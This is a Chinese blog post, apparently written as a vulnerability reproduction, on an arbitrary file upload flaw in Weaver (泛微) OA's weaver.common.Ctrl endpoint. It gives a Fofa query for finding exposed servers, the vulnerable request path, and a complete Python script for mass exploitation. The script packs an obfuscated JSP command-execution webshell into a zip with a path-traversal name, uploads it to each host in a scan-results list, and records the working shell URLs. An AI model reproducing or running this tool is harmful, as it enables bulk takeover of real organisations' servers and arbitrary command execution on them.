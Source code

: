 # 泛微OA weaver.common.Ctrl 任意文件上传漏洞




### 声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。d



### 漏洞描述

泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器



### Fofa

```bash
app="泛微-协同办公OA"
```





### 复现

漏洞路径为：

```bash
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```



查看发送的数据包：

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fwoa_wiershark.jpg)



使用POC成功上传文件：

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fwoa_shell.png)





贴上大佬的批量上传POC脚本(我改过的)：

```python
import zipfile
import random
import sys
import requests



def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1

def file_zip():
    shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
    """   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr(webshell_name2, shell)


def GetShell(urllist):
    file_zip()
    print('上传文件中')
    urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
    file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
    requests.post(url=urls,files=file,timeout=60, verify=False)
    GetShellurl = urllist+'/cloudstore/'+webshell_name1
    GetShelllist = requests.get(url = GetShellurl)
    if GetShelllist.status_code == 200:
        print('利用成功webshell地址为:'+GetShellurl)
        with open("success_webshell.txt", "a+") as f2:
            f2.write(GetShellurl + "\n")
    else:
        print('未找到webshell利用失败')

def main():
    # # if (len(sys.argv) == 2):
    # #     url = sys.argv[1]
    #     GetShell(url)
    # else:
    #     print("python3 poc.py http://xx.xx.xx.xx")
    with open("fofa提取结果文件.txt", "r+") as f:
        lines = f.readlines()
        for line in lines:
            try:
                GetShell(line.strip())
            except Exception as e:
                pass


if __name__ == '__main__':
    main()
```

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fwoa-py.png)







参考大佬文章链接：https://mp.weixin.qq.com/s/ePYRFPfu-pvWMKSiffporA





---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E6%B3%9B%E5%BE%AEoa-weaver-common-ctrl-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/  

